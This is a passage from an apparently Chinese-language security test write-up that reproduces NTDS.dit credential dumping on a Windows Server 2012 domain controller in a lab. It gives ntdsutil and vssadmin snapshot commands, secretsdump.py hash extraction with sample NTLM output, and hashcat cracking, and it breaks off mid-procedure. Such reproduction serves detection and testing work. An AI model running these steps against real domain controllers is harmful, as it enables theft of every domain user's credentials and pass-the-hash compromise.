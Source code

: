 ## 测试复现

### 环境准备
- 攻击机：KaliLinux2019
- 靶机：WindowsServer2012（域控制器，安装ActiveDirectory）
- 工具：
  - MetasploitFramework（提权和监听）
  - Mimikatz或Secretsdump.py（哈希提取）
  - PowerSploit（Invoke-NinjaCopy）
  - Sysmon（可选，日志收集）

### 攻击分析

#### 测试1：使用Ntdsutil创建NTDS.dit快照
1. **获取域管理员权限**：
   - 使用Metasploit提权或已有域管理员账户登录：
   ```cmd
   whoami /priv
   ```

2. **创建快照**：
   在域控制器上执行：
   ```cmd
   ntdsutil "activate instance ntds" "ifm" "create full C:\Temp\ntds_dump" quit quit
   ```

3. **复制文件到攻击机**：
   通过SMB或HTTP将`C:\Temp\ntds_dump\ntds.dit`和`C:\Temp\ntds_dump\registry\SYSTEM`传输到攻击机。

4. **提取哈希**：
   使用Secretsdump：
   ```bash
   secretsdump.py -ntds C:\Temp\ntds.dit -system C:\Temp\system.hiv LOCAL
   ```
   - 示例输出：
     ```
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     user1:1001:aad3b435b51404eeaad3b435b51404ee:a2345375a47a92754e2505132aca194b:::
     ```

5. **破解哈希**：
   使用Hashcat：
   ```bash
   hashcat -m 1000 -a 0 ntlm_hashes.txt wordlist.txt
   ```

6. **结果分析**：
   - 成功：提取域用户哈希，可用于密码破解或传递哈希攻击。
   - 失败可能：
     - 权限不足。
     - 防病毒软件阻止快照创建。
     - 文件传输被防火墙拦截。

#### 测试2：使用VSS和Vssadmin提取NTDS.dit
1. **创建卷影副本**：
   在域控制器上执行：
   ```cmd
   vssadmin create shadow /for=C:
   ```
